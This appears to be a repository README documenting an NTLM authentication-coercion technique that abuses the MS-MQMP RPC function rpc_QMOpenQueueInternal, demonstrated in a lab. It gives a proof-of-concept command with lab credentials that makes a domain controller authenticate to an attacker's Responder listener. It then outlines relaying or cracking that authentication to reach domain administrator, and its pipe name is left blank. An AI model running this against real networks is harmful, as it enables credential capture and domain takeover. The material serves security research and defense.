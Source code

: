 # MS-MQMP - Remote call to rpc_QMOpenQueueInternal (opnum 19)

## Summary

 - **Protocol**: [[MS-MQMP]: Message Queuing (MSMQ): Queue Manager Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9)

 - **Protocol UUID**: fdb3a030-065f-11d1-bb9b-00a024ea5525

 - **Protocol version**: 1.0

 - **SMB Named pipe**: ``

 - **Function name**: [`rpc_QMOpenQueueInternal`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/de086803-3f83-44ec-9bd3-417216c171c8)

 - **Function operation number**: `19`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-MQMP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9) protocol (with uuid `fdb3a030-065f-11d1-bb9b-00a024ea5525` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-MQMP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-MQMP]: Message Queuing (MSMQ): Queue Manager Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9) and allows to call RPC functions of this protocol. We will then call the remote [`rpc_QMOpenQueueInternal`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/de086803-3f83-44ec-9bd3-417216c171c8) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
rpc_QMOpenQueueInternal('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT rpc_QMOpenQueueInternal(
   [in] handle_t hBind,
   [in] QUEUE_FORMAT* pQueueFormat,
   [in] DWORD dwDesiredAccess,
   [in] DWORD dwShareMode,
   [in] DWORD hRemoteQueue,
   [in, out, ptr, string] WCHAR** lplpRemoteQueueName,
   [in] DWORD* dwpQueue,
   [in] GUID* pLicGuid,
   [in, string] WCHAR* lpClientName,
   [out] DWORD* pdwQMContext,
   [out] RPC_QUEUE_HANDLE* phQueue,
   [in] DWORD dwRemoteProtocol,
   [in] DWORD dwpRemoteContext
 );
```

## References

 - Documentation of protocol [MS-MQMP]: Message Queuing (MSMQ): Queue Manager Client Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9

 - Documentation of function `rpc_QMOpenQueueInternal`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/de086803-3f83-44ec-9bd3-417216c171c8